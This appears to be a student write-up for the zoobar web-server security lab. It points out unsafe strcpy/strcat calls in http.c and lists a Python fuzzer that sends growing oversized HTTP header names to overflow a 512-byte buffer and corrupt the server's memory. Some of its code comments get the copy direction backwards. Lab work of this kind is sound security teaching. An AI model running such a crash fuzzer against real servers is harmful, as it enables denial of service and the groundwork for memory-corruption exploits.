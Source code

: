 ------

[http.c:344]
In the 'dir_join' function the program uses another vulnerable function - strcpy, which does not check buffer lengths and just copies given input into the buffer.

    strcpy(dst, dirname); // Here the program uses strcpy function to copy the 'dst' variable input into 'dirname' variable

------

[http.c:347]
In the 'dir_join' function the program also uses 'strcat', which does not check buffer lengths and just concatenates user input as is.

    strcat(dst, filename); // Here the program uses strcat function to copy the 'dst' variable input into 'filename' variable

------

###Exercise 2

For the second vulnerability we chose to exploit was how the zoobar HTTP server handles HTTP requests headers. If we as an attacker create an arbitrary header that exceeds the 'envvar' variable 512 bytes, we successfully corrupt the memory of the zoobar process.

    # Fuzzed HTTP Requests trying to find
    # the maximum size that the server
    # can handle

    import sys, socket, time
    
    # Use in the form "python httpfuzz.py host port"

    host = sys.argv[1] # Recieve IP from user
    port = int(sys.argv[2]) # Recieve Port from user

    length = 100 # Initial length of 100 A's

    while (length < 3000): # Stop once we've tried up to 3000 length
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # Declare a TCP socket
        client.connect((host, port)) # Connect to user supplied port and IP address

        command = "GET / HTTP/1.1\r\nHost: " + host + "HTTP_" + length * "C" + ": foo" + "\r\nConnection: Close\r\n\r\n"
        client.send(command) # Send the user command with a variable length name
        data = client.recv(1024) # Recieve Reply
        client.close() # Close the Connection
        time.sleep(2)
        print "Length Sent: " + str(length) # Output length of the request
        length += 100 # Try again with an increased length
